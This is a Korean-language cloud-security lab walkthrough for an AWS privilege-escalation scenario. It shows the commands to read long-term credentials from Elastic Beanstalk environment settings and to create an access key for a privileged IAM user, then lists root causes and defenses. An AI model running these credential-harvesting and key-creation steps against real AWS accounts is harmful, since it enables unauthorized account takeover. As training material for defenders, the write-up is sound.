

# 03. Beanstalk Secrets

- 난이도: Easy
- 핵심: Elastic Beanstalk 환경 설정의 Secret 노출과 과도한 IAM Key 관리 권한을 연결합니다.

## Attack Path



## 1. Application과 Environment 찾기

```bash
PROFILE=<PROFILE>
REGION=<REGION>

aws elasticbeanstalk describe-applications \
  --profile "$PROFILE" \
  --region "$REGION"

aws elasticbeanstalk describe-environments \
  --application-name <APPLICATION_NAME> \
  --profile "$PROFILE" \
  --region "$REGION"
```

Application은 논리적 묶음이고 Environment는 실제 Version이 배포되는 실행 환경입니다.

## 2. Environment Configuration 읽기

```bash
aws elasticbeanstalk describe-configuration-settings \
  --application-name <APPLICATION_NAME> \
  --environment-name <ENVIRONMENT_NAME> \
  --profile "$PROFILE" \
  --region "$REGION"
```

`aws:elasticbeanstalk:application:environment` Namespace의 Option은 애플리케이션 환경 변수로 전달됩니다. Lab에서는 여기서 Secondary User의 장기 Credential을 찾습니다.

## 3. Secondary Identity의 권한 확인

```bash
aws sts get-caller-identity --profile <SECONDARY_PROFILE>

aws iam list-attached-user-policies \
  --user-name <SECONDARY_USER> \
  --profile <SECONDARY_PROFILE>
```

정책을 읽으면 특정 조건에서 다른 User의 Access Key를 생성할 수 있는 권한을 확인할 수 있습니다. User 이름이 아니라 연결된 Policy를 기준으로 Privileged Identity를 찾습니다.

```bash
aws iam list-users --profile <SECONDARY_PROFILE>

aws iam list-attached-user-policies \
  --user-name <TARGET_USER> \
  --profile <SECONDARY_PROFILE>
```

## 4. Lab의 Key 관리 결함 검증

허가된 Scenario 안에서만 대상 User의 새 Key를 생성하고 즉시 별도 Profile로 사용합니다.

```bash
aws iam create-access-key \
  --user-name <TARGET_USER> \
  --profile <SECONDARY_PROFILE>

aws sts get-caller-identity --profile <PRIVILEGED_PROFILE>
```

새 Identity의 권한으로 Scenario Secret에 도달하면 경로가 완성됩니다.

## Root Cause

- Beanstalk 환경 변수에 장기 AWS Credential을 저장했습니다.
- 환경 설정 조회 권한이 곧 Credential 읽기 권한이 됐습니다.
- Secondary User가 다른 Privileged User의 Access Key를 만들 수 있었습니다.
- 장기 Key와 과도한 권한이 연쇄적으로 사용됐습니다.

## Defense

- Beanstalk에는 Instance Profile을 연결하고 장기 Key를 제거합니다.
- Secret은 전용 저장소에서 Runtime에 읽습니다.
- `iam:CreateAccessKey`는 자기 자신을 포함해 매우 제한적으로 부여합니다.
- 새 Key 생성, Policy 연결과 Secret 조회를 CloudTrail에서 경보화합니다.
- 완료 후 생성한 Key와 로컬 Profile을 제거합니다.
